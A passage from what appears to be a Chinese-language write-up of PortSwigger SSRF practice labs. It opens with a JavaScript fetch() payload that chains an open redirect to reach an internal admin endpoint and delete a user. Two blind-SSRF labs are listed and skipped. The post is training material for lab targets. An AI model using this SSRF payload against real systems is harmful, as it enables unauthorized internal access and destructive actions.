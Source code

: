 然後再

```js
fetch(`${location.origin}/product/stock`, {
  headers: {
    "content-type": "application/x-www-form-urlencoded",
  },
  body: `stockApi=${encodeURIComponent(`/product/nextProduct?currentProductId=1&path=http://192.168.0.12:8080/admin/delete?username=carlos`)}`,
  method: "POST",
  mode: "cors",
  credentials: "include",
});
```

## Lab: Blind SSRF with out-of-band detection

| Dimension | Description                                                                                        |
| --------- | -------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/ssrf/blind#how-to-find-and-exploit-blind-ssrf-vulnerabilities |
| Lab       | https://portswigger.net/web-security/ssrf/blind/lab-out-of-band-detection                          |



這題需要 Burp Suite Professional，之後再來解～

## Lab: Blind SSRF with Shellshock exploitation

| Dimension | Description                                                                                        |
| --------- | -------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/ssrf/blind#how-to-find-and-exploit-blind-ssrf-vulnerabilities |
| Lab       | https://portswigger.net/web-security/ssrf/blind/lab-shellshock-exploitation                        |



這題需要 Burp Suite Professional，之後再來解～

## 小結

又是一個很快就結束的 Lab，只有短短的 5 題，但也讓我學到了原來 URL 跟 IP 原來水很深

## 參考資料

- https://portswigger.net/web-security/ssrf
